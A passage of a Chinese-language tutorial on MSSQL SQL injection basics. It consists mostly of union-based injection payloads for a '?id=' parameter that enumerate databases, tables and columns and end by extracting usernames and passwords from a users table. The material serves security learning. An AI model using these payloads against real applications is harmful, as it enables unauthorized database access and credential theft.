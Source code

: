 使用`db_name()`函数，传入数字类型就可以遍历所有的数据库
```sql
?id=-1' union select 1,db_name(1),3--+
```
![image.png](.//MSSQL 注入基础.assets/2023_05_19_10_41_23_MOhEjdJt.png)
或者查询`master..sysdatabases`来获取表名
```sql
?id=-1' union select '1',name,'3' from master..sysdatabases--+
```
当只能获取一个字段的时候，如下所示
![image.png](.//MSSQL 注入基础.assets/2023_05_19_10_41_23_CvxcjaHm.png)
![image.png](.//MSSQL 注入基础.assets/2023_05_19_10_41_23_7uDqyv8p.png)
由于mssql2000 没有concat函数（mssql 2012支持），所以我们尝试使用如下payload，以此类推
```sql
?id=-1' union select '1',name,'3' from master..sysdatabases where name != 'master' --+
?id=-1' union select '1',name,'3' from master..sysdatabases where name not in ('master','model','msdb') --+
```
![image.png](.//MSSQL 注入基础.assets/2023_05_19_10_41_24_YC5eBMHm.png)
![image.png](.//MSSQL 注入基础.assets/2023_05_19_10_41_24_RIj5QAUq.png)
或者
```sql
select catalog_name from information_schema.schemata;
```
**查表**
在获取了当前的数据库，此时需要获取当前数据库的表，使用`current_database`..sysobjects(此时current_database为test，所以为test..systobjects)，条件为U（用户表）
```sql
// 查当前库的第一个表
?id=-1' union select top 1 '1',name,3 from  test..sysobjects where xtype='U'--+
// 查当前库的第一个表
select top 1 name from sysobjects where xtype='u'
// 查当前数据库的第一个表
-- test.information_schema.tables 包含视图 而 test..sysobjects where xtype = 'U' 只包含用户创建的表
select top 1 table_name from information_schema.tables
// 查询master库第一个表名，以此类推
select top 1 table_name from master.information_schema.tables
```
![image.png](.//MSSQL 注入基础.assets/2023_05_19_10_41_24_o7vs0XKT.png)
![image.png](.//MSSQL 注入基础.assets/2023_05_19_10_41_24_Moqw63Vy.png)
**查字段**
```basic
// 支持跨库查询
?id=-2' union select top 1 1,name,'3' from test..syscolumns where id = (select id from test..sysobjects where name='users')--+
// 或者
?id=-2' union select top 1 1,column_name,'3' from test.information_schema.columns where table_name = 'users'--+
// 或者,但是以下不支持跨库查询
?id=-2' union select top 1 1,name,'3' from test..syscolumns where id = OBJECT_ID('users')--+
// 或者
?id=-2' union select top 1 1,(select top 1 col_name(object_id('users'),1) from sysobjects),3--+
?id=-2' union select top 1 1,(select top 1 col_name(object_id('users'),{i}) from sysobjects),3--+
```
![image.png](.//MSSQL 注入基础.assets/2023_05_19_10_41_24_p6Zbz4Mu.png)
![image.png](.//MSSQL 注入基础.assets/2023_05_19_10_41_25_ZF5lC4eX.png)
**查值**
在已知表名，列名的情况下，直接使用select 语句查询即可
```sql
?id=-2' union select top 1 1,username,password from users--+
```